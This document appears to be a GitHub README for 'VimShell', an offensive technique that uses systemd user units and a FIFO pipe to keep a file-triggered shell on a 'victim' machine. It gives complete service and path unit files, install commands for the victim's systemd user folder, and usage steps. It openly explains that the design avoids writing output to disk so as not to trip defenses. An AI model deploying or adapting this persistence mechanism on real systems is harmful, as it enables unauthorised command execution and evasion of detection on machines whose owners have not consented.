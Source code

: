 # VimShell

## Description

This sequence of commands sets up an interactive shell via a text file and FIFO pipe.
systemd facilitates this interaction by redirecting the text file, `/tmp/vimsh.txt` (opened in everyone's favorite editor - `vim`)
to the input of the `sh` terminal. Using sytemd's path-based units, we're able to notify the shell
when new commands need to be executed.

The shell service file (`execshell.service`) uses:

* The `ExecStart` directive to execute the terminal shell
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `StandardInput` directive uses the regular file `/tmp/vimsh.txt` as a stream of commands to process
* The `StandardOutput` directive uses the FIFO pipe `/tmp/vimsh.out` as a stream to send command output to

The path file (`vimsh.path`) uses:

* The `PathModified` directive to monitor the input file
* The `Unit` directive to execute the shell service when the input file has been modified

## Additional Notes

* We could have used another regular text file as output instead of a FIFO pipe, but that would write all our command output
  to disk, potentially tripping defenses.
* Each command in `/tmp/vimsh.txt` must be on a separate line, just like in shell scripts (or you can use `;`)
* In order for systemd to see that a file has been updated, you must save changes to disk - merely modifying the buffer in `vim` won't do anything
  * Tip: Use `:wq` outside of "Insert" mode (hit `[Escape]` to exit this mode) to save the buffer to disk
* An excellent writeup of file redirects and executing shell commands through a file (Example 13): <https://catonmat.net/bash-one-liners-explained-part-three>

## Step by Step

1. Generate a service file to execute commands

```ini
$ cat execshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=Execute shell commands in the given input file

[Service]
Type=simple
StandardInput=file:/tmp/vimsh.txt
StandardOutput=file:/tmp/vimsh.out
ExecStartPre=/bin/sh -c "find /tmp/vimsh.out || mknod --mode=0666 /tmp/vimsh.out p"
ExecStart=/bin/sh
```

3. Generate a path file to execute the shell service

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.path.html
[Path]
PathModified=/tmp/vimsh.txt
Unit=execshell.service
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/execshell.service ~/.config/systemd/user/
ln -s `pwd`/vimsh.path ~/.config/systemd/user/
```

5. Start the path unit

```sh
systemctl --user start vimsh.path
```

6. Open up the file `/tmp/vimsh.txt` to add shell commands to, and save it when ready

```sh
$ cat /tmp/vimsh.txt
whoami
pwd
```

7. Display the FIFO pipe `/tmp/vimsh.out` to read output

```sh
$ tail -f /tmp/vimsh.out
user01
/tmp/
```
